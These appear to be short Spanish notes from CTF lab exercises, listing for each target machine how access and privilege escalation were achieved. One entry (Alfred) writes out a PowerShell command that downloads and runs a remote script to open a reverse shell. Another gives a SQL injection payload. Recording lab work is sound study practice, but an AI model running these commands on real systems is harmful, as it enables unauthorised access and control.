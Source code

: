 ############## Alfred
explotacion en el puerto 8080 credenciales admin admin, se crea un proyecto libre y se ejecuta un comando de windows en buil
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.87.166:4444/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port >
escalacion: token seimpersonalprivilege


############## Brainpan_1
Buffer overflow


############## Gamezone
explotacion: sqlinjection ' or 1=1 -- -
sqlmap
puertos no expuestos


############## HackPack
explotacion: puerto 80 login fuerza bruta burbpsuit hydra
credenciales: admin : 1qaz2wsx
explotacion version
escalacion: servicio en ejecucion


############## Kenobi
explotacion: smbclient
111
como la maquina tenia una montura en /var se descargo la montura en la maquina donde tenia el id_rsa
una vez dentro para escalar privilegios se aprovecho el archivo /usr/bin/menu


############## Relevant
explotacion: smb
revershell aspx
setimpersonateprivilege


############## Steel_mountain
vulnerabilidad: puerto 8080
HttpFileServer 2.3
se puede reiniciar un servicio


############## Blue
eternal blue


############## Brainstorm
buffer overflow


############## Daily
exploit: version joomla


############## Gatekeeper
buffer overflow


############## Overpass_2                                                                              
Identificar el atacante como tuvo acceso a la maquina
wireshark


############## Skynet
explotacion; listar directorios con smbclient
hydra
linpeas

############## Vulnersity 
explotacion:
puerto 3333
fuzzing initial/uploads
extension del archivo .phtml
escalacion permisos suid /bin/systemctl
